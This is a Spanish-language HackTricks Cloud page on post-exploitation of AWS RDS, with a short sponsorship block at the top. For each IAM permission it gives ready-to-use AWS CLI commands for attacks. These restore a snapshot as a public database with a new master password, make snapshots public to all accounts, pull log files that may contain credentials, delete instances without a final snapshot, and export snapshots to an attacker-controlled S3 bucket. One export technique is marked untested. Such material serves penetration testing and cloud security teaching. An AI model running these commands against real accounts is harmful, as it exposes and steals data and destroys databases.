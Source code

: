 # AWS - Post Explotación de RDS

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## RDS

Para obtener más información, consulta:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Si el atacante tiene suficientes permisos, podría hacer que una **BD sea accesible públicamente** creando una instantánea de la BD y luego una BD accesible públicamente a partir de la instantánea.

```bash
aws rds describe-db-instances # Obtener el identificador de la BD

aws rds create-db-snapshot \
    --db-instance-identifier <db-id> \
    --db-snapshot-identifier cloudgoat

# Obtener grupos de subred y grupos de seguridad
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier "new-db-not-malicious" \
    --db-snapshot-identifier <scapshotId> \
    --db-subnet-group-name <db subnet group> \
    --publicly-accessible \
    --vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
    --db-instance-identifier "new-db-not-malicious" \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# Conéctate a la nueva BD después de unos minutos
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Un atacante con estos permisos podría **crear una instantánea de una BD** y hacerla **disponible públicamente**. Luego, simplemente podría crear en su propia cuenta una BD a partir de esa instantánea.

Si el atacante **no tiene el permiso `rds:CreateDBSnapshot`**, aún podría hacer que **otras** instantáneas creadas sean **públicas**.

{% code overflow="wrap" %}
```bash
# crear instantánea
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Hacerla pública
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Especifica otras cuentas específicas en lugar de todas para dar acceso solo a cuentas específicas: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

Un atacante con el permiso `rds:DownloadDBLogFilePortion` puede **descargar porciones de los archivos de registro de una instancia de RDS**. Si se registran accidentalmente datos sensibles o credenciales de acceso, el atacante podría utilizar esta información para escalar sus privilegios o realizar acciones no autorizadas.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Impacto potencial**: Acceso a información sensible o acciones no autorizadas utilizando credenciales filtradas.

### `rds:DeleteDBInstance`

Un atacante con estos permisos puede **denegar el servicio de las instancias de RDS existentes**.

{% code overflow="wrap" %}
```bash
# Eliminar
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Impacto potencial**: Eliminación de instancias de RDS existentes y posible pérdida de datos.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Probar
{% endhint %}

Un atacante con este permiso puede **exportar una instantánea de una instancia de RDS a un bucket de S3**. Si el atacante tiene control sobre el bucket de destino de S3, podría acceder potencialmente a datos sensibles dentro de la instantánea exportada.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Impacto potencial**: Acceso a datos sensibles en la instantánea exportada.